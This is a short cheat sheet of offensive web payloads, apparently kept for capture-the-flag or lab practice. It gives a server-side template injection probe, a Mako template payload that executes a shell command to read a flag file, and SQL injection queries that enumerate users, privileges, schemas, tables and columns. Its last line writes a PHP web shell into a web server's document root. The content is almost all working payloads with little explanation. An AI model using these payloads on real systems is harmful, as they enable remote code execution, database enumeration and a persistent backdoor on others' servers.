 ## How to identify the Vulnerability SSTI?
```
${{<%[%’”}}%\.
```
https://medium.com/@aslam.mahimkar/hackthebox-busqueda-writeup-c4ae57a89fd4

### Mako
#### RCE
``` shell
${self.module.cache.util.os.popen("cat /flag.txt").read()}
```

# SQL Injection
## PayloadsAllTheThings
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

### Insert Statement injection using ON DUPLICATE KEY UPDATE
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#insert-statement---on-duplicate-key-update

### Get access user
```shell
select user()
```

### Get privilege type from user
```shell
select privilege_type FROM information_schema.user_privileges where grantee = <user name>
```

### Get access database
```shell
select database()
```

### Get schema names
```shell
select schema_name from information_schema.schemata
```

### Get table name from information_schema
```shell
select table_name from information_schema.tables where table_schema = <schema_name>
```

### Get column name from table name
```shell
select column_name from information_schema.columns where table_name = <table_name>
```
### Write shell
```shell
select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/0xdf.php'
```
